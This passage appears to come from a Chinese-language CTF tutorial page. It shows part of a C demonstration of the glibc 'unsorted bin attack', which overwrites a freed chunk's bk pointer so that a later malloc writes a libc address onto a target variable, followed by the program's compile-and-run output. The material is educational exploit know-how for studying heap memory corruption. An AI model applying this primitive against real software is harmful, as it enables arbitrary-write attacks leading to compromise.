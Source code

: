 ```c
  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

程序执行后的效果为

```shell
➜  unsorted_bin_attack git:(master) ✗ gcc unsorted_bin_attack.c -o unsorted_bin_attack
➜  unsorted_bin_attack git:(master) ✗ ./unsorted_bin_attack
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffe0d232518: 0

Now, we allocate first normal chunk on the heap at: 0x1fce010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
0x7ffe0d232518: 0x7f1c705ffb78
```
